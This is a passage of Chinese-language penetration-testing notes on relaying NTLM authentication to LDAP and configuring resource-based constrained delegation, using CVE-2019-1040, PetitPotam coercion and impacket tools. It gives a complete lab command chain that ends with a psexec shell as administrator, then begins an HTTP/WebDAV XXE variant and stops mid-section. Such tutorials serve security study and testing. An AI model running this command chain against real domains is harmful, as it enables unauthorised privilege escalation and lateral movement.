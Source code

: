 下面简要介绍利用 SMB, HTTP, WebDAV 协议进行 NTLM Relay to LDAP 并配置 RBCD 实现本地提权/横向移动

### SMB

默认情况下, LDAP 的签名策略为协商签名 (是否签名由客户端决定), 当使用 SMB 协议发起 LDAP 请求时, 就会要求 LDAP 服务器对 NTLM 认证请求强制签名, 所以一般来说无法通过 SMB 协议进行 NTLM Relay to LDAP

但是 2019 年爆出了 CVE-2019-1040 漏洞, 它能够绕过 NTLM MIC 的防护机制, 修改 NTLM 请求中的某些标志位, 使得客户端对于 SMB 发起的 LDAP 请求不要求签名, 从而实现 NTLM Relay

结合强制认证 (例如 SpoolSample, PetitPotam) 配合 RBCD 可以实现横向移动

首先添加机器账户

```shell
addcomputer.py hack-my.com/Alice:'Alice123!' -computer-name TEST\$ -computer-pass 123456 -dc-host DC.hack-my.com -dc-ip 192.168.30.10 
```

启动 ntlmrelayx, 注意设置 `--remove-mic` 选项

```shell
ntlmrelayx.py -t ldap://192.168.30.10 --remove-mic --delegate-access --escalate-user 'TEST$'
```

利用 PetitPotam 发起对恶意机器的 SMB 请求

```shell
python3 PetitPotam.py -d hack-my.com -u Alice -p 'Alice123!' 192.168.30.40 192.168.30.20
```

![image-20230801165443199](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011654251.png)

最后申请 ST

```shell
getST.py hack-my.com/test\$:123456 -spn cifs/WIN7-CLIENT.hack-my.com -impersonate administrator -dc-ip 192.168.30.10

export KRB5CCNAME=administrator.ccache
psexec.py -k -no-pass administrator@WIN7-CLIENT.hack-my.com -dc-ip 192.168.30.10
```

![image-20230801165606720](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011656768.png)

### HTTP

参考文章:

[https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/)

[https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/](https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/)

[https://y4er.com/posts/xxe-to-dc-replay/](https://y4er.com/posts/xxe-to-dc-replay/)

原理是 Tomcat 5 WebDAV 的 PROPFIND 等方法在接受 XML 作为输入时存在 XXE 漏洞, 其发送请求时使用的 HttpURLConnection 类在接收到状态码为 401 的响应之后会判断 `WWW-Authenticate` 的值, 如果为 `NTLM` 则会自动使用当前用户的凭据进行认证
